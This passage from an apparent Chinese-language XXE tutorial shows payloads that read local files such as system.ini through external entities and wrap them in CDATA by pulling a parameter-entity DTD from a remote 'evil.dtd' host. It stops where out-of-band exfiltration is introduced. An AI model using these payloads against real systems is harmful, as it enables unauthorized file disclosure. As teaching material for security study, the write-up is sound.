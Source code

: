 那我们把我们的读出来的数据放在 CDATA 中输出就能进行绕过，但是怎么做到，我们来简答的分析一下：

首先，找到问题出现的地方，问题出现在

```
...
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
<creds>&goodies;</creds>
```

引用并不接受可能会引起 xml 格式混乱的字符(在XML中，有时实体内包含了些字符，如&,<,>,",'等。这些均需要对其进行转义，否则会对XML解释器生成错误)，我们想在引用的两边加上 "<![CDATA["和 “]]>”,但是好像没有任何语法告诉我们字符串能拼接的，于是我想到了能不能使用多个实体连续引用的方法

**结果如下图：**

![image-20231218150426365](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218150426365.png)

注意，这里面的三个实体都是字符串形式，连在一起居然报错了，这说明我们不能在 xml 中进行拼接，而是需要在拼接以后再在 xml 中调用，那么要想在 DTD
中拼接，我们知道我们只有一种选择，就是使用 参数实体

**payload:**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```

**evil.dtd**

```
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

**结果如下图：**

![image-20231218150453960](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218150453960.png)

感兴趣的童鞋可以分析一下整个调用过程，因为我在下面的例子中有分析一个类似的例子，于是出于篇幅考虑我这里就不分析了。

> **注意：**
>
> 这里提一个点，如果是在 java 中 还有一个协议能代替 file 协议 ，那就是 netdoc ，使用方法我会在后面的分析 微信的 XXE
> 的时候顺带演示

### **新的问题出现**

但是，你想想也知道，本身人家服务器上的 XML 就不是输出用的，一般都是用于配置或者在某些极端情况下利用其他漏洞能恰好实例化解析 XML 的类，因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法------外带

### **新的解决方法**
